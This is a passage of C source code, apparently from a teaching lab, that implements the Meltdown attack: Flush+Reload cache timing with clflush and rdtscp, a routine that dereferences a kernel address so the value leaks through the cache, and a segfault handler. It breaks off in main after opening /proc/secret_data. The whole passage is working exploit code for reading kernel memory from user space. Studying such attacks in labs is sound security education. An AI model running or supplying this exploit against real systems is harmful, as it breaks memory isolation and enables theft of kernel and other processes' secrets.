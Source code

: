 ```c
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}
/*********************** Flush + Reload ************************/

void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                
       "add $0x141, %%eax;"
       ".endr;"                    
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}

// signal handler
static sigjmp_buf jbuf;
static void catch_segv()
{
   siglongjmp(jbuf, 1);
}

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }
  
```